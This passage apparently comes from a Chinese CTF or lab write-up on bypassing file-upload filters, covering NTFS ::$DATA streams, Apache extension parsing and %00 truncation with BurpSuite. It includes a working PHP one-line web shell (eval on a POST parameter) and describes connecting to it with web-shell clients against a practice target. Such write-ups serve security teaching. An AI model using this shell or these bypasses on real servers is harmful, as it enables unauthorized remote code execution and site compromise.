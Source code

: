 ⑤ Windows ::$DATA 绕过  
Windows ::$DATA 绕过只能用于 Windows，Windows 下 NTFS 文件系统有一个特性，即 NTFS 文件系统在存储数据流的一个属性 DATA 时，是请求 a.php 本身的数据。如果 a.php 还包含了其他的数据流，比如 a.php:lake2.php，请求 a.php:lake2.php::$DATA，则是请求 a.php 中的流数据 lake2.php 的流数据内容。简单来说，就是在数据后面加上::$DATA 实现绕过，fox.php::$DATA 返回 fox.php 数据。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcYJ9NTXT1IuGbfNx2qIMrbAGosEX38dk0Ywjg1LJNLmaD7cyDNCia9Kw/640?wx_fmt=png)

⑥ Apache 解析漏洞上传  
Apache 是从右到左判断解析，如果为不可识别解析，就再往左判断。比如 1.php.xxx 对 Apache 来说 xxx 是不可解析的，所以就会解析成 1.php，这就是该漏洞的实现原理。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcwwS4V97GiaWXiaZrgK5zh5ofOPNVjZlyiclRbkZZroBk57L8iauLBcBRpA/640?wx_fmt=png)

如上图所示，将本地 “fox.php” 修改为“fox.php.xxx”，然后点击上传。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcVAaytX3iaTcn5f3sJrLNIyIu8giagr1DgdR9GicP4HB78pWgR55R4miaNg/640?wx_fmt=png)

接着尝试用菜刀去连接。URL 为靶场的网址，密码为 PHP 一句话木马中的 “fox”，代码如下：

```
<?php eval($_POST[fox]); ?>
```

下图是 Caidao 连接的示意图。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcWG92nO54vBTXWPv3KXccK2Qv8vdAHtiat309k7XUmR9lMd0QC3cCgWA/640?wx_fmt=png)

连接之后，成功获取文件目录，可以看到 “fox.php.xxx” 被成功上传。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcSY0qiaZfewD7HFcCQ8gF1TibkMFpBj2GZzIatmNEsM3VNyYO3f8RCaAQ/640?wx_fmt=png)

本题能够成功上传 “gif-ma01.php.xxxgif” 文件，如下图所示，难道成功了吗？

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CciczicV4ICwfRic2R4w4cibVMBYdXgxpgl3zRY1iczZgbkPHGAyYPJojzSEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcjOy5Uxqp4DIY3NNTCUUHuVoMQ0CbWRj3jXyMiafiaSjm9zBhicn8MhQLQ/640?wx_fmt=png)

然而当使用中国蚁剑和冰蝎去连接时仍然失败，说明该网站不存在 Apache 解析漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcXWTx1DFB4RLZ5ngJyUyxYdgzciaKnC3oJ7ZdDCBBY7KzwO8wYrlgsYw/640?wx_fmt=png)

失败： 这道题目不会让你上传 “.htaccess” 文件，同时也不会让你简单绕过上传，不存在 Apache 等漏洞。

方法 5：%00 截断上传  
0x00 是十六进制表示方法，是 ASCII 码为 0 的字符，在有些函数处理时，会把这个字符当做结束符。这个可以用在对文件类型名的绕过上。需要注意，00 截断 get 是可以自动转换的，post 需要特殊转换，下面举一个例子。

首先，选择上传一张包含一句话木马的 “php.jpg” 图片。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcWbUCIvn8YQwhRH1BGvn3YicstBz0EInPT3kgxhz3noUBXwMb3jNGlXA/640?wx_fmt=png)

然后，利用 BurpSuite 抓包并修改后缀名为 “php.php%001.jpg”。如果直接修改为“php.php” 可能会被过滤。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9Cco1STDWbnMpOM0HFXl9yW1Q74NnCjZNzSaPjj0XycOgelZzqbeKMDPA/640?wx_fmt=png)

这种方法仍然不可行，因为它采用 post 提交数据，需要特殊转换。这里选中 “%00” 右键转换为 URL 格式，如下图所示，然后再点击 “Forward” 提交数据即可。
